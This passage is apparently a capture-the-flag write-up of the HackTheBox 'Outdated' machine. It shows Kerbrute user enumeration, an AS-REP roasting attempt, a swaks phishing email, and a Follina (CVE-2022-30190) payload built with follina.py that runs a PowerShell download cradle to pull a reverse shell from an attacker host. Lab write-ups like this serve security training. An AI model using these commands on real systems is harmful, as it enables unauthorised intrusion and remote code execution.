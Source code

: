 ![image](https://user-images.githubusercontent.com/87700008/208490980-8db1dcc7-2dfd-4c4d-a101-8ccdf8193c6c.png)

Ran Kerbrute & found 3 other valid usernames as well:

![image](https://user-images.githubusercontent.com/87700008/208497771-57a5c58b-cd34-4192-8df2-e9adca6728f1.png)

With the gathered credentials I tried to gather some hashes via using AS-REP roasting without using any password but no luch here as well :

        python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.11.175 -request 'dc.outdated.htb/' -no-pass -usersfile user_list.txt
        
![image](https://user-images.githubusercontent.com/87700008/208656855-ca0bcb76-dac3-45b2-b2f9-d0b6e4b633f9.png)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## **Initial access:**

As I tried all the possible ways but didn't get the success now it's time to go with the hint provided in that PDF file. As per the list of vulnerabilities we will try to exploit MSDT exploit CVE-2022-30190 (follina). Also, from port scan I found port 25 open & running a SMTP server & from the pdf "please assist our NOC by e-mailing a link to any internal web applications to
itsupport@outdated.htb so we can get them added back into our monitoring platform for alerts and notifications" it seems like we can exploit this follina vulnerabiliy.

At this point I am clueless how to proceed further but then I took some help from the Ippsec video & got know about a tool called "swaks". In short it is a SMTP transaction tester. 

![image](https://user-images.githubusercontent.com/87700008/208659001-aa361b97-6774-46ad-ac94-272914a3defa.png)

So, we can use swaks to send an e-mail towards itsupport & we can check for the response while our ncat server running, so the format to send e-mail from swaks will be something like this :

        swaks --to itsupport@outdated.htb --from "k4rim@0k4rim.htb" --server mail.outdated.htb --header "Subject: Internal web app" --body "http://myip"
        
 And in our ncat we got response from the box & it seems like the server is running the powershell :
 
 ![image](https://user-images.githubusercontent.com/87700008/208740200-2e609767-0c5a-4f7b-9f65-eb8d1c248e32.png)
 
 Now, to exploit the follina vulnerability we can follow these steps :
 
 - Host a html page with more than 4096 bytes to exploit the follina vulnerability.
 - In that html page contain another "IEX" command to retrieve our shell which is beign hosted in the same directory.
 - shell contains a code which will give us a reverse shell.

So, to for the exploitation with 4096 bytes of padded data I used POC from here : https://github.com/chvancooten/follina.py
With the help of follina.py I generated an HTML page with the exploit that well get executed on the box :

        python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://myip/shell.ps1')"
